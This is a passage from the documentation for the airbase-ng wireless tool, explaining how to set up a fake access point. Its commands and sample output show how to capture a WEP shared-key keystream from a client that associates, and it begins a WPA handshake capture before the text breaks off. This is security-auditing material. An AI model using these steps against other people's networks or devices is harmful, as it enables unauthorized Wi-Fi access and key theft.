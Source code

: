  Where:

*  -c 9 specifies the channel
*  -e teddy filters a single SSID
*  -s forces shared key authentication
*  -W 1 forces the beacons to specify WEP
*  wlan0 specifies the wireless interface to use

 The system responds:

```
 15:08:31  Created tap interface at0
 15:13:38  Got 140 bytes keystream: 00:0F:B5:88:AC:82
 15:13:38  SKA from 00:0F:B5:88:AC:82
 15:13:38  Client 00:0F:B5:88:AC:82 associated to ESSID: "teddy"
```

 The last three lines only appear when the client associates with the fake AP.

 On another console window run:

```
 airodump-ng -c 9 wlan0
```

 Where:

*  -c 9 specifies the channel
*  wlan0 specifies the wireless interface to use

 Here is what the window looks like with a successful SKA capture. Notice “140 bytes keystream: 00:C0:CA:19:F9:65” in the top right-hand corner:

```
 CH  9 ][ Elapsed: 9 mins ][ 2008-03-12 15:13 ][ 140 bytes keystream: 00:C0:CA:19:F9:65                       
                                                                                                            
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                            
  00:C0:CA:19:F9:65   87  92     5310        0    0   9  54  WEP  WEP    SKA  teddy                            
                                                                                                            
  BSSID              STATION            PWR   Rate  Lost  Packets  Probes                                      
                                                                                                            
  00:C0:CA:19:F9:65  00:0F:B5:88:AC:82   83   0- 1     0     4096  teddy 
```

 Alternatively, use the ”-F &lt;file name prefix&gt; option with airbase-ng to directly write a capture file instead of using airodump-ng.

### WPA Handshake Capture {#wpa_handshake_capture}

 This is an example of how to capture the WPA handshake.

 Enter:

```
 airbase-ng -c 9 -e teddy -z 2 -W 1 rausb0
```
